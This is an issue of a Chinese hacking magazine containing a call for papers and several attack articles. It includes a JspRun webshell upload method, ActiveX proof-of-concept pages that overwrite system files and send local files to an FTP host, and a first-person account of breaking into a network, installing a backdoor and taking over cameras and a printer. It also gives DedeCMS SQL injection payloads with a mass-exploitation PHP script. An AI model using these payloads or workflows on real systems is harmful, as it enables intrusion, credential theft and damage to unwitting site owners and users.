### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求

- 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 在稿件末尾请注明您的账户名、银行账号、以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：

| 稿件等级 | 稿费标准 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 投稿信箱及编辑联系
  - 投稿信箱：675122680@qq.com、hadefence@gmail.com
  - 编辑 QQ：675122680

# 黑客防线

总第159期 2014

网站全新改版，欢迎访问：http://www.hacker.com.cn
- 惊爆深圳住房公积金网站打印控件 0Day 漏洞
- Android 系统端口扫描器编写初探
- Java 实现 Web 后台弱口令暴力破解
- 利用密码过滤器拦截添加用户
- 瞒天过海加载“未签名”驱动
- Raw Input 及键盘过滤实现多键盘输入选择性控制

## 《黑客防线》第3期文章目录

总第159期 2014年

#### 漏洞攻防

- JspRun! 后台获取 webshell（simeon）……3
- 惊爆深圳住房公积金网站打印控件 0Day 漏洞（爱无言）……6
- 记一次内网探索（独猫）……11
- DedeCMS 全版本通杀 SQL 注入漏洞利用（Simeon）……16

#### 编程解析

- Raw Input 及键盘过滤实现多键盘输入选择性控制（倪程）……22
- 利用密码过滤器拦截添加用户（李旭昇）……27
- 瞒天过海加载“未签名”驱动（李旭昇）……29
- Java 实现 Web 后台弱口令暴力破解（倒霉蛋儿）……31
- Windows 中的跨进程数据操作（王晓松）……45

#### Android 远程监控技术

- Android 系统端口扫描器编写初探（马智超）……49

- 2014年第4期杂志特约选题征稿……53
- 2014年征稿启示……56

## JspRun！后台获取 webshell

文/图 simeon

JspRun！是北京飞速创想科技有限公司推出的一套通用社区论坛软件系统，用户可以在不需要任何编程的基础上，通过简单的设置和安装，在互联网上搭建起具备完善功能、很强负载能力和可高度定制的论坛服务。JspRun! 的基础架构采用世界上最先进流行的 Web 编程组合 JAVA+MySQL 实现，是一个经过完善设计、适用于各种服务器环境的高效论坛系统解决方案。系统采用 struts、hibernate 框架及中间件的结合，既实现了业务逻辑与控制逻辑的有效分离，提高了层次结构的清晰度，提高了复用的粒度，降低了开发代价和维护代价，同时保证了软件的质量，使其更具有鲁棒性和可维护性。它可以运行在 Windows 环境下，也可以运行在 Linux 环境下，具备跨平台特性，可以运行于 Linux/FreeBSD/Unix/SunOS 及微软 Windows 2000/2003 等各种操作系统环境下。网上提供一键安装 Linux 和 Windows 版本，官方网站 www.jsprun.com。通过实际使用，其基本是模仿 Discuz！论坛风格。目前网上也有大量用户使用该程序来搭建社区论坛等应用。

本文主要就如何在获取管理员的情况下获得 Webshell，关于如何获得管理员密码不在本文讨论范围。下面具体介绍如何在获得管理员账号的情况下获得 Webshell。

### 进入系统后台

登录后台成功后，单击“论坛管理”进入系统设置首页，如图1所示。JspRun！论坛程序可以直接输入后台管理地址（http://www.somesite.com/admincp.jsp）进行登录，与 Discuz！论坛管理稍微有些区别。
图1 进入后台设置

### 通过“模板编辑”增加新的模板

在系统设置首页中，单击“模板编辑”，可以看到系统默认的五套模板：默认模板套系、喝彩奥运、深邃永恒、粉状精灵和 2008year。在最后新增一套模板，模板名称可以随意取，在本例中取名为“111”，所在目录设置为已经存在的目录“./include”，然后单击“提交”完成模板编辑。如图2所示。
图2 创建新模板

### 在模板中创建新的文件

在模板维护中可以看到有绿色字体显示的“jsprun_version”以及“test”，单击该项目可以进行编辑，也可以新增模板文件。如图3所示，输入模板名称为“shell”，单击“提交”，并在 shell 模板文件中粘贴 shell 文件中的代码，保存后即可获取 shell。
图3 新增模板文件 shell

### 测试并访问 shell

Shell 地址跟模板目录有关，地址为网站地址 + 模板目录 + 模板文件名称，如图4和图5所示。本例中的 shell 地址为“http://www.somesite.com/include/shell.php”。如果出现文件访问出错信息，有可能是代码文件存在问题，建议使用“jsp File Browser”文件管理器。
图4 shell 文件的真实地址
图5 获取 webshell

### JspRun! 论坛其它相关漏洞

根据网上公布的漏洞线索，JspRun! 论坛管理后台的 export 变量没有过滤，直接进入查询语句，导致可在后台操作数据库，获取系统权限。在处理后台提交的文件 ForumManageAction.java 第1940行：

```java
String export = request.getParameter("export");//直接获取，没有安全过滤
if(export!=null){
List<Map<String,String>> styles=dataBaseService.executeQuery("SELECT s.name, s.templateid, t.name AS tplname, t.directory, t.copyright FROM jrun_styles s LEFT JOIN jrun_templates t ON t.templateid=s.templateid WHERE styleid='"+export+"'");//进入查询语句，执行了...
if(styles==null||styles.size()==0){


```

测试方法：http://www.somesite.com/admincp.jsp?action=styles&export='1' and 1=2 union select 1,2,3,4,user()-- and '='

笔者就 JspRun！论坛 2010 版本程序进行实际测试，在测试过程中遇到两种情况：一种情况是提示用户无管理权限，拒绝执行；另外一种情况则是下载一个 style 文件。文件内容如图6所示。
图6 Style 文件内容

### 总结与思考

- Windows 以及 Linux 平台搭建的 JspRun！论坛程序，如果权限设置不严格，可以较为容易拿到最高系统权限，即通过 Webshell 直接添加用户或者执行 system 命令。
- 后台管理员密码可以有四种方式获取：一种是给管理员发木马，木马后查看键盘记录即可获取；第二种是嗅探，同网段对管理员账号进行嗅探；第三种通过 XSS，通过构建跨站漏洞获取管理员密码；第四种是社工，通过了解管理员信息、社工库查询，甚至通过社工直接获取都有可能。

## 惊爆深圳住房公积金网站打印控件 0Day 漏洞

文/图 爱无言

谈到买房的贷款问题，相信很多人都会有此经历，房奴的日子确实不好过。但是如果你有住房公积金，那么在贷款方面将会受益匪浅。对于深圳地区的读者来说，如果你需要采用住房公积金方式来贷款，或者处理有关住房公积金的事宜时，你可能就需要访问“深圳住房公积金”官方网站了。

“深圳住房公积金”官方网站提供了多项有关公积金的服务，其中最多就是有关公民买房数据信息的录入，这与普通的办公网络系统一样，也就是类似于 OA 系统。需要买房的公民可以直接在网站系统上进行相关信息填写，然后可以在线打印出自己所填写的表格。在进行这些操作时，我们需要在系统中安装一个由“深圳住房公积金”官方网站提供的打印控件，名为“hbsetup.exe”。通过查看该文件的文件属性，发现该控件就是北京用友华表软件技术有限公司制作的控件程序。

选择安装该控件之后，我们使用 COMRaider 发现系统中被安装了一个名为 CellWeb5.ocx 的文件，该文件属于 ActiveX 控件。利用 COMRaider 查看该控件提供的所有接口，如图1所示。
图1

从图中可以看出，CellWeb5.ocx 提供的外部接口数量十分多，这对我们来说是一个好消息，因为这意味着我们将会有更多的可能性来发现安全漏洞。

现在，我们开始针对 CellWeb5.ocx 进行安全测试。首先测试的外部接口是“SaveAsFile”。从名字上分析，“SaveAsFile”是用来保存文件的，中文翻译过来就是所谓的“另存为”。测试代码如下：

```html
<OBJECT id="test"
classid="clsid:3F166327-8030-4881-8BD2-EA25350E574A"></OBJECT>
<script>
test.SaveAsFile("c:\\boot.ini",1);
</script>


```

保存上述代码为 ax.htm，将其放置在本地搭建的 Web 环境下。这里我们首先声明一下，用来做测试的系统是 Windows XP，该系统工作在虚拟机当中，而用来测试的 Web 环境则被放置在真实系统当中。

在 ax.htm 中，我们试图调用“SaveAsFile”接口，向其传递两个参数，其中最为关键的是第一个参数，它代表了将当前表格保存为具体的文件完整名称。我们在这里将其赋值为“c:\boot.ini”，这样做会有什么效果呢？在 Windows XP 系统中，使用 IE 浏览器访问 ax.htm 文件，结果如图2所示。
图2

在浏览器访问 ax.htm 文件后，发现当前系统中的 boot.ini 文件真的被修改了，原始的 boot.ini 文件只有 1KB 大小，而现在却成了 5KB。如果你用记事本打开现在这个 boot.ini 文件，就会发现全是乱码。最要命的是，如果你现在重启了 Windows XP 系统，会发现根本无法进入系统了！这意味着，我们可以借助“SaveAsFile”接口来覆盖用户系统当中的重要文件，造成对用户系统的致命破坏。

测试完“SaveAsFile”接口，我们开始测试“SetCellHyperLink”这个接口。从字面上分析，它可以用来在当前表格中创建超级链接。为此，我们重新修改了 ax.htm，代码如下：

```html
<OBJECT id="test" classid="clsid:3F166327-8030-4881-8BD2-EA25350E574A" width=800 height=800>
</OBJECT>
<script>
test.SetCellHyperLink(1,1,0,"点击这里","file:\\\\c:\\windows\\system32\\cmd.exe","获得最新数据");
</script>


```

请大家注意，首先，我们在 object 标签中设定了 width 和 height 属性，这样做的目的是为了能够让被测试的这个表格控件在网页中创建出表格样式。只有表格能够显示出来，我们才能看到其上显示的超级链接。“SetCellHyperLink”有6个参数，其意义分别代表表格的哪一行、哪一列、第几个表格、超级链接文字、超级链接目的地址、超级链接浮动文字。我们此刻将超级链接的目的地址指向本地系统中的 cmd.exe 程序，接下来你就会看到这么做的意义了。

用 Windows XP 系统中的 IE 浏览器再次访问 ax.htm 文件，效果如图3所示。
图3

可以看到浏览器显示出一个表格，其第一个空格中有一个名为“点击这里”的超级链接。现在我们点击该链接看看有什么效果，如图4所示。
图4

很神奇对不对？cmd.exe 程序竟然被运行了！这意味着利用该接口我们可以诱骗用户执行本地系统当中的任意程序，危害可想而知。如果某个恶意攻击者能够成功进入“深圳住房公积金”官方网站，然后设定一个页面要求用户在线填写一个表格，在创建这个表格时，恶意攻击者就可以设定一个超级链接指向用户系统当中的某个程序。一旦用户点击了表格中的超级链接，该程序就会被立即执行，从而实现远程启动用户系统中的任意程序。

如果说上面的两个漏洞还不够刺激，那么下面要说到的这个漏洞可就非常有价值了。对于恶意攻击者来说，进行远程攻击的目的之一就是为了能够远程获取用户系统当中的指定文件内容。现在，我们可以借助 CellWeb5.ocx 控件来帮助我们实现这个目的。

在 CellWeb5.ocx 控件提供的众多接口中，其中有两个接口让我们十分感兴趣，分别是“ImportCSVFile”和“ExportFTPFile”。“ImportCSVFile”的用意是从一个 CSV 文件中读取数据，然后显示在当前表格中；而“ExportFTPFile”的用意是将当前表格导出到指定 FTP 上。如果将这两个方法结合起来，将会实现远程读取用户系统中的任意指定文件，测试代码如下所示：

```html
<OBJECT id="test" classid="clsid:3F166327-8030-4881-8BD2-EA25350E574A" width=800 height=800>
</OBJECT>
<script>
test.ImportCSVFile("c:\\boot.ini",0);
test.ExportFTPFile("ftp://192.168.1.58/boot.ini",21,"anonymous","");
</script>


```

通过 Windows XP 系统中的 IE 浏览器访问新的测试网页，结果如图5所示。
图5

从图5中我们可以看到，浏览器中的表格中已经显示出了当前系统中的 boot.ini 内容。那么远程的 FTP 服务器上有没有被成功上传该 boot.ini 文件呢？如图6所示。
图6

从图中我们看到，远程 FTP 服务器上真的被成功上传了一个名为“boot.ini”的文件，只不过该文件属于该控件的表格类型文件。其实，我们可以直接使用记事本打开该文件，可以看到在该表格文件中真的包含了用户系统当中的 boot.ini 文件内容。由此证明，借助 CellWeb5.ocx 控件，我们确实可以实现远程获取用户系统当中任意指定文件的内容，这不得不说是一个严重的安全威胁。

通过以上测试分析可以看出，CellWeb5.ocx 控件存在诸多安全隐患。为此，我们希望该控件的编写者北京用友华表软件技术有限公司能够及时修补以上安全漏洞，也希望“深圳住房公积金”官方网站能够停止该控件的下载安装服务，以免造成更多用户受到该控件漏洞的不良影响。本文旨在讨论安全技术，请读者不要借助本文内容进行任何违法行为，作者和杂志概不负责。

## 记一次内网探索

文/图 独猫

一天无聊浏览了某个网站，乍一看没看出来是什么 CMS，到处逛逛看看吧。找到一个数字型错误，id=80-1 和 id=79 一样，但是看报错是过滤了 ' 和 "。再尝试其他的，发现基本上语句全部过滤了。不过这里知道了一个表名：Tb_product，如图1所示。
图1

一时断掉后尝试旁注，结果发现整个网段只有这个 IP，旁注无路。搜索这个网站的其他信息，结果在谷歌第三页上发现了一个论坛，是该网站子目录下的 www.a.cn/forum/faq.php，discuz。打开后发现是 discuz7.1，必须登录才可查看内容。而且记得 discuz7.x 的漏洞必须都是注册用户才可。正准备去注册，却发现无法注册，需要管理员手工审核才可注册成功（如图2），而且内部论坛不见得能通过注册。看样子没有办法了，无奈再次找其他方法。
图2

继续 Google hack，在十几页之后找到了另一个有价值的目录 www.a.cn/bbs/index.php。打开后，发现最近更新都是4年前，如果能有利用的漏洞就好了（如图3）。看信息之后确定是 bbPress 搭建的论坛（WordPress 旗下的一个子项目）。
图3

搜索相应漏洞，在 sebug 上有一个 CSRF 获得管理员权限的，bbPress v1.0.2 的。再回到 a.cn，右键查看源码，也是 1.0.2 的，正好！

为了防止无法注册等意外的发生，先自己搭建一个这个平台试玩。正在搭建的最后一步，发现一个很尴尬的问题：没有默认密码，而是机器生成的默认密码，强悍程度不忍直视。心里寒了一下，又继续操作，如图4所示。
图4

搭建完成后，因为漏洞是 CSRF，还得再注册一个普通账号。结果注册的时候不断提示用户名/邮箱已经存在（我自己搭建的论坛哪有存在！），如图5所示。
图5

一气之下直接去 phpMyAdmin 复制一条记录，等进到 phpMyAdmin 却发现已经存在记录了。（逗我呢？！）赶紧登录却发现没有密码，记起来是发到我邮箱里了，但是邮箱里却没有收到密码。忽然想起我本地没配置过邮箱服务啊（原来正是没有配置邮箱导致密码发送不成功，导致了论坛程序乱出错误）。进入 phpMyAdmin 将 admin 的加密密码覆盖到我自己的用户名上，成功登录。

再尝试下 exp，看起来这个 exp 长得有点奇怪啊？（是根本语法就不对啊！）再次在另一个网站上找到了看起来正常的 exp。对比下，原来是网站安全起见，将 `\\` 转义为 `\`，`\"` 转义为 `\"`，然后组成 `\"` 转义为 `"`，在输出的时候出了问题。（这样式像是传说中的宽字节注入？）再次利用 exp，试了半天，却没有成功，然后看了下源码，各种函数跳转，太复杂也就没再继续下去，这条路又不通了，如图 6 所示。
图 6

就在无可奈何的时候，忽然想到了一个在乌云最近挺火的 discuz 转换升级漏洞，正好目标是 discuz 7.x 系列，不用注册用户（http://drops.wooyun.org/papers/929）。尝试 post 提交，然后菜刀连接之，成功连接！如图 7 所示。
图 7

转到 C 盘成功，新建文件夹成功，看起来权限很高。然后 phpinfo 看了下 mysql 版本，翻遍整个网站找到了几条 mysql 用户名密码，其中就有 root 权限的（如图 8），然后 UDF 提权成功。赶紧添加个后门，开了代理。本来就该结束了的，可是在代理连接时发现处于一个 192.168.*.* 的内网中。再来扫了一下内网看看，却发现还有几个 80 端口开放的。打开之，发现是网络摄像头，这一下又提起了我的兴趣，如图 9 所示。

```php
$dbhost = 'localhost'; // 数据库服务器
$dbuser = 'root';      // 数据库用户名
$dbpw = 'q8j...';      // 数据库密码
$dbname = '...';       // 数据库名
$pconnect = 0;         // 数据库持久连接 0=关闭,1=打开


```

图 8
图 9

因为 ActiveX 原因，换到 XP+IE6 虚拟机中打开。试了下 admin 没成功，然后尝试查找默认密码。由于网站页面没有任何版权信息，所以右键查看源码，找到了 ClassId 这一项，然后到 `C:\WINDOWS\Downloaded Program Files` 里，挨个右键属性查找 ID 相符的一项，如图 10 所示。
图 10

根据该文件的其他公司信息，成功找到默认密码 admin 和 012345。确实比 admin 安全点。注意，这里是没法用 burp 来进行爆破的，因为用 ActiveX 插件进行通信，所以 burp 是拦截不到数据包的。

登录进去之后，发现只有两个摄像头能工作，不过也挺有意思的，如图 11 所示。
图 11

忽然想起来这个摄像头监控平台好像和乌云上看过的一个帖子相似（http://wooyun.org/bugs/wooyun-2013-047371），这个平台还有对应的 telnet 功能。尝试连接，成功，如图 12 所示。
图 12

还有另一个 80 端口的机器，192.168.0.110，打开后发现为打印机的网络管理页面（记得前几年就提及打印机内部存储会有很多敏感文件）。尝试登录，还是密码错误，然后尝试爆破。Burp 拦截数据包发现是在 http 头里添加了认证信息，如图 13 所示，经过 base64 解密后，发现是 `admin:123456` 这种形式的数据，burp 构造好 intruder，简单几分钟后，得到密码 admin 和 admin123。
图 13

最后倒腾了几下，发现了一部分存留文档，多是写工作报告规划之类的东西，想想如果对于商业利益，这将会是很大的隐患。对于这些非传统电子设备的开放，我们对之了解的还太少，主要原因是平台的不统一和发现难度高。但对于真正的商业关系，这恐怕会是重点攻克对象吧！

通知了管理员，也就结束了本次旅程。最后比较有收获的就是搞定摄像头进去看了看，前期太过多磨，后期就比较顺利了。

## DedeCMS 全版本通杀 SQL 注入漏洞利用

文/图 Simeon

Dedecms 即织梦（PHP 开源网站内容管理系统，http://www.dedecms.com/）是目前著名的网站内容管理系统之一。以简单、实用、开源而闻名，是国内最知名的 PHP 开源网站管理系统，也是用户最多的 PHP 类 CMS 系统。近日，网友在 Dedecms 中发现了全版本通杀的 SQL 注入漏洞，目前官方最新版已修复该漏洞，针对该漏洞，网友们充分发挥聪明才智，给出了好几个版本，下面对这个漏洞的利用和实战等情况进行讨论和分析，欢迎进行拍砖！

## 漏洞分析

### 1）比较漏洞文件

通过 Dedecms 下载站点 http://updatenew.dedecms.com/base-v57/package/ ，下载补丁文件 `patch-v57&v57sp1-20140228.zip`，通过其更新文件说明可以看到主要更新的文件如下：

- dede/config.php，更新 cookies 加密密码
- include/helpers/channelunit.helper.php，禁用标签提示
- include/uploadsafe.inc.php，可能导致 SQL 注入漏洞修复
- member/soft_edit.php，文件上传过滤

通过文件分析工具，对早期版本和更新的补丁进行比对，如图 1 所示，发现修改代码如下：

```php
/* ***** 修补后.php
}

//$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\", "\\", $_FILES[$_key]['tmp_name']);
$$_key = $_FILES[$_key]['tmp_name'] = $_FILES[$_key]['tmp_name'];
${$_key.'_name'} = $_FILES[$_key]['name'];
/* ***** 修补前.PHP
}
```

```php
$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\", "\\", $_FILES[$_key]['tmp_name']);
//把$_FILES[$_key]['tmp_name']里面的\\\\替换为\\
${$_key.'_name'} = $_FILES[$_key]['name'];


```
图 1 对比分析代码

### 2）漏洞利用分析

str_replace 替换是本次出现 SQL 注入的关键，但是 `$_FILES[$_key]['tmp_name']` 是 PHP 系统生成的随机变量，默认不可控。结合 `include/common.inc.php` 文件中的代码，只要变量名不含 `cfg_ | GLOBALS | _GET | _POST | _COOKIE` 就可以，利用上面的代码可以覆盖 `$_FILES`，同时利用代码：`$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\", "\\", $_FILES[$_key]['tmp_name']);`。

### 3）漏洞利用代码

- 可利用代码 1：

```text
plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\' or mid=@\'\n/*!50000union*//*!50000select*/1,2,3,(select CONCAT(0x7c,userid,0x7c,pwd)+from+ %23@__admin limit+0,1),5,6,7,8,9%23@'\'+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=6873
```

- 可利用代码 2：

```text
plus/recommend.php?aid=1&_FILES[type][name]&_FILES[type][size]&_FILES[type][type]&_FILES[type][tmp_name]=aa\'and+char(@\'\')+/*!50000Union*//*!50000SeLect*/+1,2,3,group_concat(userid,0x23,pwd),5,6,7,8,9 from `%23@__admin`%23
```

- 可利用代码 3：

```text
plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\\%27%20or%20mid=@\'\\%27%20/*!50000union*//*!50000select*/1,2,3,(select%20CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`%20limit+0,1),5,6,7,8,9%23@'\\%27'+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294
```

- 可利用代码 4：

```text
plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\' or mid=@\'\' /*!50000union*//*!50000select*/1,2,3,(select CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin` limit+0,1),5,6,7,8,9%23@'\'+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=111


```

网上还有人根据漏洞利用方式开发出来一款漏洞利用工具，将网站地址输入利用工具，即可以获取管理员的密码，实际使用效果如图 2 所示。该工具仅仅对漏洞中的一种情况进行了利用，对某些实际存在的漏洞无法利用，且只能获取一个账号信息。
图 2 DedeCMS SQL 注入漏洞利用工具

### 4）利用方式探讨

对于 DedeCMS 而言，只要获取了最高管理员权限，通过文件管理器，可以快捷方便地获取 Webshell，也即通过新建文件，或者编辑 PHP 文件均可获取 webshell。但 DedeCMS 在安装时默认后台管理地址为 `http://www.somesite.com/dede`，实际安装过程中出于安全考虑，一般都会修改默认后台，因此即使获取了管理员密码也可能无法获取网站权限。因此，本次漏洞利用思路如下：

- 1. 通过 google 搜索获取 dedecms 后台地址；
- 2. 通过 recommend.php 页面 SQL 注入获取管理密码；
- 3. 登录后台获取 Webshell。

## 实际漏洞利用

### 1）利用 google 搜索 dedecms 标识

在 google 浏览器中搜索 `Powered by DedeCMSV57_GBK_SP1 © 2004-2011 DesDev Inc.`，如图 3 所示，获取 49 条搜索记录。在使用 google 搜索时，可以设置显示结果为 100，便于对结果进行整理。
图 3 利用 google 搜索 dedecms 标识

### 2）手动获取管理员密码

在 Google 搜索结果中随机选择一个网站地址，打开网站后，在其网站地址后面加入  
`/plus/recommend.php?aid=1&_FILES[type][name]&_FILES[type][size]&_FILES[type][type]&_FILES[type][tmp_name]=aa\%27and+char(@\'%27')+/*!50000Union*/+/*!50000SeLect*/+1,2,3,group_concat(userid,0x23,pwd),5,6,7,8,9%20from%20'%23@__admin'%23`，即可获取管理员的帐号和密码信息，如图 4 所示。
图 4 测试 SQL 注入点

### 3）对管理员密码破解

在本例中获取了三个账号和密码信息，`spider#f297a57a5a743894a0e4`、`3dsk#eed756463edea1f021db` 和 `admina#f297a57a5a743894a0e4`。“#”后为密码，去掉前三位和最后一位，获取的字符串即为 MD5 密码。例如 spider 的密码为 `7a57a5a743894a0e`；admina 密码为 `7a57a5a743894a0e`，破解后为 `admin`，如图 5 所示，复杂密码可以在 cmd5.com 网站进行查询。
图 5 破解管理员密码

### 4）登录后台并获取 webshell

找到后台管理地址后，输入获取的管理员和密码，进入后台管理系统，获取的账号必须是最高管理员权限，然后单击“附件管理”-“文件式管理器”，如图 6 所示，新建一个文件，加入一句话代码，保存即可获取一句话后门。使用菜刀一句话对该 webshell 进行测试，如图 7 所示，顺利获取该网站的 webshell。
图 6 插入一句话后门
图 7 获取 webshell

### 5）批量获取管理员密码

网友 “Sunshie” 写了一个 DEDECMS 批量利用工具，其源代码如下：

```php
<?php
print_r(
"

+------------------------------+
DEDECMS 批量利用工具
By :Sunshie
Usage: $argv[0] Filename
Example: php.exe $argv[0] url.txt
url.txt 是你采集的网址文件！
+------------------------------+
\r\n\r\n\r\n"
);
$filename=$argv[1];
if(!file_exists($filename)) echo "o(□`o 你妹的 你采集的文件呢？ \r\n";
$conts = file_get_contents($filename);
$arrConts = explode("\n",$conts);
$arrConts=str_replace("\"","",$arrConts);
$arrConts=str_replace("\r","",$arrConts);
$arrConts=str_replace("\n","",$arrConts);
//print_r($arrConts);
for($i=0;isset($arrConts[$i]);$i++){
    echo fuckdede($arrConts[$i]);
}

function fuckdede($sb){
    $sb=str_replace("http://","",$sb);
    $expp="http://".$sb."/plus/recommend.php?aid=1&_FILES[type][name]&_FILES[type][size]
&_FILES[type][type]&_FILES[type][tmp_name]=aa\'and+char(@`)+/*\!50000Union*/+/*\!50000Select*/+1,2,3,concat(0x3C6162633E,group_concat(0x7C,userid,0x3a,pwd,0x7C),0x3C2F6162633E),5,6,7,8,9%20from%20`%23@__admin`%23";
    $exp=@file_get_contents($expp);
    eregi("_<abc>(.*)</abc>_",$exp, $arr);
    $exploit=str_replace("_<abc>", "==fuck", $arr[0]);
    $exploit=str_replace("</abc>_", "fuck==", $exploit);
    return "网址:".$sb."注入结果:".$exploit."\r\n------------------------------\r\n";
}
?>


```

利用方法为：通过网络搜集 dedecms 网站网址，将网站网址整理成 `url.txt`，然后执行命令：`php dedecms url.txt`，执行后即可获取存在漏洞的网站管理员信息，如图 8 所示。
图 8 批量获取管理员密码

### 6）漏洞修复方法探讨

关于漏洞修复，笔者认为有以下几个方法：

- 1. 升级程序到最新版本。下载最新补丁进行更新是最快捷的方法。补丁下载地址为：  
  http://updatenew.dedecms.com/base-v57/package/
- 2. 隐藏后台登录地址，对后台地址进行变异性更改，例如“decms_2013_tx_fx_x”，目的是无法通过猜测和扫描获取。
- 3. 设置高强度密码，将最高权限管理员密码设置为 15 位（大小写字母+数字+特殊字符）以上，增加破解难度。
- 4. 加入免费安全防范软件，例如在网站加入安全宝、360 安全防护、安全狗等。
- 5. 定期关注安全站点漏洞信息，定期对站点进行维护和检查。

（完）

## Raw Input 及键盘过滤

### 实现多键盘输入选择性控制

文/图 倪程 成都工业职业技术学校

系统连接多个键盘设备时，可能需要使用某个键盘作为标准输入，另一个键盘用作其他特殊任务。比如，当打开记事本后，按下键盘 1 上的字母 a 键，你希望其写入记事本，而敲击键盘 2 上的 a 键时，记事本上并没有记录字母 a，取而代之的是通知后台执行某一特殊任务。如何控制键盘输入并根据键盘的输入信息决定下一步的动作或者任务，可能很多读者知道可以采用键盘过滤钩子技术实现，通过 Windows 自带的 APIs 函数或者通过自定义驱动的方式均可实现键盘过滤，然而如何判断键盘消息来自哪个键盘设备，键盘过滤技术是无法做到的。系统是否有方法可以甄别来自两个不同设备的输入？Raw Input 技术即可实现在不查找和打开输入设备的情况下，甄别来自两个不同设备的输入并准确获取输入数据。本文将结合原始输入及键盘过滤技术实现多键盘输入的选择性控制。

### Raw Input 技术获取特定设备的原始输入

应用程序想获取原始数据，则必须注册其想要获取原始输入的那些设备。为了注册这个设备，应用程序首先必须创建一个指明其所希望接受设备类别的（top level collection—TLC）RAWINPUTDEVICE 结构。TLC 被定义成为 UsagePage（设备类）和 Usage（设备类内的具体设备）。例如，为了从键盘获取原始输入，设置 UsagePage = 1 and Usage = 6，应用程序调用 RegisterRawInputDevices 完成设备注册。

```cpp
// 注册原始输入设备
RAWINPUTDEVICE rawInputDevice[1];
rawInputDevice[0].usUsagePage = 1;
rawInputDevice[0].usUsage = 6;
rawInputDevice[0].dwFlags = RIDEV_INPUTSINK;
rawInputDevice[0].hwndTarget = hWnd;
RegisterRawInputDevices(rawInputDevice, 1, sizeof(rawInputDevice[0]));
```

rawInputDevice[0].dwFlags = RIDEV_INPUTSINK 意味着即使某窗口失去焦点位置，仍然会一直接收输入消息，这使得多个窗口可分别响应来自不同键盘的事件。当设备注册成功后，应用程序的消息队列就会得到一个 WM_INPUT 消息，然后再调用 GetRawInputData 函数处理原始输入数据。

GetRawInputData 函数共包含 5 个参数：

- hRawInput：WM_INPUT 消息的 lParam 参数地址
- command：获取原始输入数据或者 RAWINPUT 结构体头信息标志，为了获取原始信息，此标记设置为 RID_INPUT
